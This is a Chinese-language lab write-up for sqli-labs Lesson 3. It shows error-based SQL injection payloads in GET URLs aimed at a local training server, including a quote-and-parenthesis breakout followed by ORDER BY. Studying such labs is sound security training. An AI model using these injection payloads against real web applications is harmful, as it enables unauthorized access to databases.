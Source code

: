 ```yaml
---
title: sqli-labs lession-3 基于错误的GET单引号变形注入
date: 2018-09-19 20:02:15
tags: [sqli-labs]
categories: sql注入
---
```


# sqli-labs lession-3 (基于错误的GET单引号变形注入) #

---

## 登录界面 ##

![1](https://i.imgur.com/7J97H2J.png)

## 注入过程 ##

`http://10.60.250.214/less/Less-3/?id=1 and 1=2`

页面无变化,排除整型注入

![2](https://i.imgur.com/C7Q76OS.png)

`http://10.60.250.214/less/Less-3/?id=1'`

![3](https://i.imgur.com/550bpkp.png)

返回报错信息:

`You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ''1'') LIMIT 0,1' at line 1`

这条报错信息与Lesson1的报错信息对比

Lesson1:

`You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ''1'' LIMIT 0,1' at line 1`

发现现在这条报错信息多了一个`)`

应该是但引号的变形。猜测源码中SQL语句:

`$sql="SELECT * FROM users WHERE id=('$id') LIMIT 0,1";`

测试一下

`http://10.60.250.214/less/Less-3/?id=1%27)%20order%20by%20100%23`

![4](https://i.imgur.com/K8K2dSA.png)

成功！！！

剩下的操作与Lesson1和Lesson2没有什么不同了。

具体流程可以查看这里。

{% post_link sqli-labs-lession-1-基于错误的GET单引号字符型注入 点击查看Lesson-1 %}
